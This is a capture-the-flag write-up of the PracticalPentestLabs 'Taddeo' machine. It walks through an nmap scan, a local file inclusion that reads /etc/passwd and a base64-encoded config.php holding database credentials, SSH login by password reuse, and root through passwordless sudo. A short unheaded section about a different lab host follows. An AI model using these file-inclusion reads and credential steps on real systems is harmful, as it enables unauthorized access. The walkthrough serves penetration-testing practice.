 ```yaml
---
title: Practical Pentest Labs | Taddeo
date: 2018-07-03 00:00:00 +0000
layout: post
categories: []
image:
  feature: "/968f7dbcabcd64f453a6ece147eda193.jpg"
  credit: ''
  creditlink: ''
description: ''
---
```

This post will describe exploitation of the Taddeo device on [PracticalPenTestLabs](https://practicalpentestlabs.com/).

## Enumeration

As is tradition, we run a full nmap scan:

```bash
nmap -Pn -p22,80,3128 -A 10.0.3.10
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-03 21:30 EDT
Nmap scan report for 10.0.3.10
Host is up (0.094s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f9:4c:ee:5c:41:f0:29:4f:95:7f:6a:c4:ed:84:ab:b3 (DSA)
|   2048 b5:93:28:83:45:8e:7e:b5:74:55:14:4c:41:c3:0a:11 (RSA)
|   256 a1:91:d7:28:ae:16:66:6f:24:36:d1:f3:3d:74:46:e6 (ECDSA)
|_  256 03:2a:6e:17:65:a9:d6:4a:10:c7:91:ca:5d:fd:39:17 (ED25519)
80/tcp   open  http       Apache httpd 2.4.7
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 230   2016-06-21 20:25  config.php
| 115   2016-06-23 19:29  file.php
| 20    2016-06-14 10:38  phpinfo.php
|_
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Index of /
3128/tcp open  http-proxy Squid http proxy 3.3.8
|_http-server-header: squid/3.3.8
|_http-title: ERROR: The requested URL could not be retrieved
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.16
OS details: Linux 3.16
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   95.01 ms 10.10.0.1
2   95.25 ms 10.0.3.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.15 seconds
```

So immediately we get a few ports we can browse. Based on what we know about this CTF network. More than likely our shell will be from the HTTP. Because we used the "-A" flag. Nmap enumerated the HTTP website and gathered some additional information that can help us prepare a plan of attack.

On the HTTP landing page, we are greeted with a directory listing. Within this listing we have a few options: phpinfo.php; config.php & file.php

Phpinfo.php gives us additional information on the target machine. But nothing else was gained from this page.

Config.php was blank. It is possible there is content in this file but we can read the contents.

File.php is interesting however, when we visit this page. We are greeted by a comment that says " Please specify the 'name' parameter" Okay. So if we visit "http://10.0.3.10/file.php?name=" We more than likely will get LFI.

And Lo and Behold we get /etc/passwd by visiting http://10.0.3.10/file.php?name=/////////////////etc/passwd. Great, so now we have a user on the machine name Taddeo. We'll need this later for SSH. Now that we know we can read system files, let's see what's inside the Config.php.

By using the PHP filters we can prevent PHP code executing when used in Local File Inclusion. So we visit "http://10.0.3.10/file.php?name=php://filter/convert.base64-encode/resource=config.php" Returned is a base64 encoded string. We will need to decode this before getting the contents of the php config file. We can do this in the command line by executing:

```bash 
echo "PD9waHAKZGVmaW5lKCAnREJfTkFNRScsICd0ZXN0JyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovCmRlZmluZSggJ0RCX1VTRVInLCAndGFkZGVvJyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovCmRlZmluZSggJ0RCX1BBU1NXT1JEJywgJ3RhZGRlb0AzMjEnICk7CgovKiogTXlTUUwgaG9zdG5hbWUgKi8KZGVmaW5lKCAnREJfSE9TVCcsICdsb2NhbGhvc3QnICk7Cgo/Pgo=" | base64 -d 
```

Once executed we will get the contents which gives us a password. Although this is a password used in MySQL. It is very common for users to re-use passwords. So let's try this out on the SSH port 22 with the user Taddeo.

We have a shell! Awesome, but the job isn't over yet. We will need to get root access now. We fire up LinuxPrivChecker.py annnnd. Nothing, nothing interesting. Which is fine because we have a few other tricks up our sleeves before we really start digging deep. But you should always try the quick and dirty tricks first before spending a ridiculous amount of time trying to get root shell. Most times, the answer is right in front of you. Now this version is vulnerable to DirtyCow. However, DirtyCow is also Dirty and more often than not will crash these machines. So best not to use it. What we do have however is a nice prompt when we execute:
```bash
Sudo -l
```
What it reads is:
```bash
User taddeo may run the following commands on TADDEO:

    (ALL) NOPASSWD: ALL
```
This is good. So we can run programs as sudo without using a password. So let's execute:
```bash
Sudo -s
```
and see if we can get a root shell.

and Tadaa! We have root and our flag.

![](https://preview.ibb.co/ja37Wd/3.jpg)

Browsing the HTTP page gives us a very simple text that reads "Nothing to see here"

We check the source of the page to make sure there aren't any hidden messages and nothing. But we still have the robots.txt.

![](https://image.ibb.co/fQXHWd/2.jpg)

When we visit the url: http://10.0.1.7/secret/b0be1e547f7a5ee3ffd555428b019d9c.txt

We get our flag.... fetus mode enabled.

![](https://image.ibb.co/hW4mPy/1.jpg)

Not all machines on this site are designed to give you root access. These machines are designed to help you practice certain enumeration skills or exploitation skills. It's not your typical CTF but it does help those who need to find a rhythm and want to understand the basics of Penetration Testing. The key to any CTF is ENUMERATE, ENUMERATE, ENUMERATE. Never forget that.